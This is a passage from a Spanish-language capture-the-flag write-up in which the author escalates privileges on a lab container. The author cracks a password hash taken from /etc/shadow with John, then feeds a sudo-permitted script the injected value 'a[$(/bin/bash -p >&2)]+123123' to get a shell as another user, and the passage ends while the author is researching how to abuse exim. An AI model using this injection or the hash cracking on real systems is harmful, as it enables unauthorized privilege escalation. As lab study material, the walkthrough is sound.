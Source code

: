 ![Screenshot From 2024-11-02 15-30-33](https://github.com/user-attachments/assets/adf990f5-9fdd-45ff-9ada-a53212eeab88)


que para mi ya es conocida esta cadena, resulta ser la password hasheada del user darksblack que se almacena en el archivo /etc/shadow
asi que creo un archivo que contenga este hash en mi maquina atacante y se la paso a john

![WhatsApp Image 2024-11-02 at 17 46 25](https://github.com/user-attachments/assets/2a308318-6f20-4d96-b66b-adee4782a645)


y logre conseguir la password del user darksblack asi que puedo cambiar de user

# User darksblack

![Screenshot From 2024-11-02 15-36-47](https://github.com/user-attachments/assets/6bbff8b6-158b-44fe-ac64-fe12d1575739)

```
sudo -l
Matching Defaults entries for darksblack on 9c13e159e6ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User darksblack may run the following commands on 9c13e159e6ea:
    (maci) NOPASSWD: /home/maci/script.sh
```

ahora como el user darksblack es que puedo hacer uso del script que habia conseguido anteriormente, asi que procedo a la escalada hacia el user maci aprovechandome del 
script

```
sudo -u maci /home/maci/script.sh
Adivina: a[$(/bin/bash -p >&2)]+123123
maci@9c13e159e6ea:~$ whoami
maci
maci@9c13e159e6ea:~$ sudo -l
Matching Defaults entries for maci on 9c13e159e6ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User maci may run the following commands on 9c13e159e6ea:
    (pepe) NOPASSWD: /usr/sbin/exim

```
# User maci

podemos ejecutar el binario exim como el user pepe, en este punto me tomo mucho tiempo de investigacion, prueba y error pero al final consegui respuesta en la propia
documentacion del binario, ya que los exploit que consegui era para una ejecucion remota de comandos los cuales no me servirian...
la informacion la consegui en este enlace: `https://www.exim.org/exim-html-current/doc/html/spec_html/ch-string_expansions.html` 

